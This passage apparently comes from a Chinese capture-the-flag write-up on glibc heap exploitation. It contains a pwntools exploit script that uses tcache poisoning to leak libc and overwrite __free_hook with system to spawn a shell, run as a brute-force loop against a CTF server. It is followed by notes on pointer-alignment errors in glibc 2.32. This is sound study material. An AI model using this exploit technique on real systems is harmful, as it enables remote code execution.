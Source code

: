 > def free():
>  cmd(2)
> 
> def show():
>  cmd(3)
> 
> def edit(content):
>  cmd(5)
>  p.recvuntil(b"Content:")
>  p.send(content)
> 
> def exp(hit_byte):
>  new(0x80, b'arttnba3')
>  free()
>  edit(b'arttnba3' * 2)
>  free()
>  
>  edit(b'\x10' + hit_byte)
>  new(0x80, b'arttnba3')
>  new(0x80, b'\x00\x00' * (0xe + 0x10 + 9) + b'\x07\x00')
>  free()
>  show()
>  main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 96
>  __malloc_hook = main_arena - 0x10
>  libc_base = __malloc_hook - libc.sym['__malloc_hook']
>  log.success("[+] libc_base: " + hex(libc_base))
>  new(0x40, (b'\x01\x00' * 2).ljust(0x40, b'\x00'))
>  new(0x40, (b'\x01\x00' * 2).ljust(0x30, b'\x00') + p64(libc_base + libc.sym['__free_hook']) + p64(libc_base + libc.sym['__free_hook'] + 0x10))
>  new(0x10, p64(libc_base + libc.sym['system']))
>  new(0x20, b'/bin/sh\x00')
>  free()
>  p.interactive()
> 
> if __name__ == '__main__':
>  count = 1
>  i = 0
>  while True:
>      try:
>          print('the no.' + str(count) + 'try')
>          print(b'try: ' + hit[i])
>          p = remote('node3.buuoj.cn', 26454)
>          exp(hit[i])
>      except Exception as e:
>          p.close()
>          i = i + 1
>          count = count + 1
>          i = i % 16
>          continue 
> ```
> 
> 1/16 的几率，本地很快就通了，但是打远程一直爆破不出来，出现了两种报错信息：
> 
> 出现这两种报错信息的原因都是 **堆块指针未对齐** ，笔者百思不得其解，只好将libc2.32的源码下载下来看看…
> 
> #### glibc 2.31下的 tcache_put 与 tcache_get
> 
> 我们先来看看在 `glibc 2.31` 中是如何操作 tcache 中的堆块的：
> 
> ```
>  static __always_inline void
> tcache_put (mchunkptr chunk, size_t tc_idx)
> {
> tcache_entry *e = (tcache_entry *) chunk2mem (chunk);